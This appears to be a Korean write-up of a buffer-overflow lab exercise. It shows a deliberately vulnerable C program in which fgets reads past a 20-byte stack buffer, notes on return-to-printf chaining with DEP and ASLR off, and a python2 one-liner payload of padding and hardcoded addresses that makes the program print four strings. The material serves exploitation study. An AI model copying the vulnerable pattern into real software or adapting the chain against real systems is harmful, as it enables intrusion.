









# Multi Function Call 2

### Question

- 아래와 같은 메세지 순서대로 출력 되도록 실행

```
Run Func1!
Run Func2!
Run Func3!
Run Func4!

```

```
#define MAX 49
#define BUFFER_SIZE 20
char Func1[]="Run Func1!\\n"; 
char Func2[]="Run Func2!\\n";
char Func3[]="Run Func3!\\n";
char Func4[]="Run Func4!\\n";

int main(int argc,char *argv[])
{ char buf[BUFFER_SIZE];
 printf(" What your name : ");
 fgets(buf,MAX, stdin);
 dumpcode((char*)buf-16, 128); 
 printf("\\nYour Name is %s",buf);
}

```


<br>


### Analysis

**1)**

- printf() 함수
  
- 목표 string 위치

    
    

    - Func1 출력 성공, printf() 함수 주소와 Func1 문자열 주소 사이에 4 bytes의 문자열을 넣어야 하는 이유?

    

    - return address 부분을 dummy 값으로 채워주는 것

- Result

    - Func1, Func2 출력 성공

<br>

**2)**

- env
    - 원래 암묵적으로 main(int argc, char  argv, char envp) 라고 보면돼. 환경변수도 스택에 셋팅되고, 어차피 DEP, ASLR이 disable 되어있으니까 디버거나 Process Utility 통해서 너가 넣은 환경변수의 스택을 찾아. 환경변수는 위 페이로드를 모두 넣을만큼 충분히 들어가
    - 환경변수 포인터에서 너가 셋팅한 환경변수의 거리만 계산하면 주소 파악은될듯. 디버거로 항상 그 위치인지 파악해보구. 디버거를 붙여서 실행한거랑 그냥 실행한거랑은 주소가 다르니까 입력값 받을때 어태치해서 스택을 살펴보면 될듯



- Windbg - !peb
  -  Fail
- Windows는 프로세스 초기화 과정에서  설정되는 모든 전역 변수는 힙에 들어가고, SEH를 포함, 함수 내에서 할당된 변수만 스택에 잡힘. 스택에서 환경변수 이용한 BOF 현재 단계에선 불가
- Linux는 .ctors외 힙에서 처리되는건 없고 환경변수, 프로세스 파라미터 모두 스택에 할당

<br>

**3)**

```
#include <windows.h>
#include <stdio.h>
#include "dumpcode.h"
#define MAX 72
#define BUFFER_SIZE 20
char Func1[] = "Run Func1!\\n";
char Func2[] = "Run Func2!\\n";
char Func3[] = "Run Func3!\\n";
char Func4[] = "Run Func4!\\n";
int main(int argc, char *argv[])
{
	char buf[BUFFER_SIZE];
	printf(" What your name : ");
	fgets(buf, MAX, stdin);
	dumpcode((char*)buf - 16, 128);
	printf("\\nYour Name is %s", buf);
}

```

- MAX 값을 72로 변경







```
python2 -c "print 'A'*24 + '\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x30\\x31\\x40\\x00\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x3c\\x31\\x40\\x00\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x18\\x31\\x40\\x00\\x40\\x10\\x40\\x00\\x09\\x15\\x40\\x00\\x24\\x31\\x40\\x00'"| .\\multi_func_2.exe
```


<br>


### Reference

- [https://devanix.tistory.com/153](https://devanix.tistory.com/153)
